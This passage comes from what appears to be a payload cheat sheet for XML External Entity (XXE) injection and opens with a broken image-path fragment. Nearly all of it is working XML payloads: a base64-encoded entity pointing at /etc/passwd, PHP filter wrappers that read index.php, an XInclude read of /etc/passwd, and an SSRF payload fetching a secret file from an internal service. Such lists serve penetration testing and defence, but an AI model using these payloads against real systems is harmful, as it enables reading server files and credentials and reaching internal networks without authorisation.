 :warning: `SYSTEM` and `PUBLIC` are almost synonym.

```ps1
<!ENTITY % xxe PUBLIC "Random Text" "URL">
<!ENTITY xxe PUBLIC "Any TEXT" "URL">
```

### Classic XXE Base64 encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



## Exploiting XXE to perform SSRF attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```
